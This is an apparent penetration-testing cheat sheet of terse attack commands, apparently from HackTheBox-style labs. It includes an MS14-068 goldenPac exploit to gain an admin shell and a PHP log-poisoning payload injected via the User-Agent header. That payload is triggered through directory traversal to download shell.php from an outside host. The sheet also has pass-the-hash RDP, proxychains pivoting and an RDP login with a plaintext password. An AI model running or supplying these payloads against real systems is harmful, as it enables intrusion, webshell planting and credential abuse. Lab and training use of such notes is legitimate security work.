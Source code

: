 # ms14-068 windows exploit - impacket tool to obtain admin shell
/home/kali/Shared/Opt-Tools/impacketEnv/bin/goldenPac.py -dc-ip 10.129.4.241 -target-ip 10.129.4.241 htb.local/james@mantis.htb.local

# searchsploit - cat an exploit on terminal and redirect to a file 
searchsploit -x /path/exploit/file | tee exploit.type

## PHP RFI - Directory Transversal Command Injection Attack

# change user agent for php server  with curl  command and assign a string of c
 curl "http://10.10.189.87/" -H "User-Agent: <?php system(\$_GET['c']); ?>"

# now we can fire up a python server, and transfer file from local box to target server via url command 
view-source:http://10.10.189.87/?view=dog../../../../../../var/log/apache2/access.log&ext&c=curl%20http://10.13.1.99/shell.php%20-o%20shell.php


# pass the hash RDP
xfreerdp /u:USER /d:DOMAIN /pth:NTLM /v:IP

# use nessus with proxychains 
proxychains /etc/init.d/nessusd stop
proxychains /etc/init.d/nessusd start

# scanning with nessus via metasploit (using advanced policy)
nessus_scan_new ad629e16-03b6-8c1d-cef6-ef8c9dd3c658d24bd260ef5f9e66 "FooPhonesLLC_Internal_Advanced" "FooPhonesLLC_Internal_Advanced" 10.185.10.25,55


# enable rdp via command line
https://www.technig.com/enable-remote-desktop-using-command/

# connect to remote pc via command line
mstsc.exe /v:WIN7 /w:640 /h:480

# xfreerdp connection via proxychains
proxychains xfreerdp /u:share_admin /v:10.185.10.34 /p:'Wind0wz87!kj'

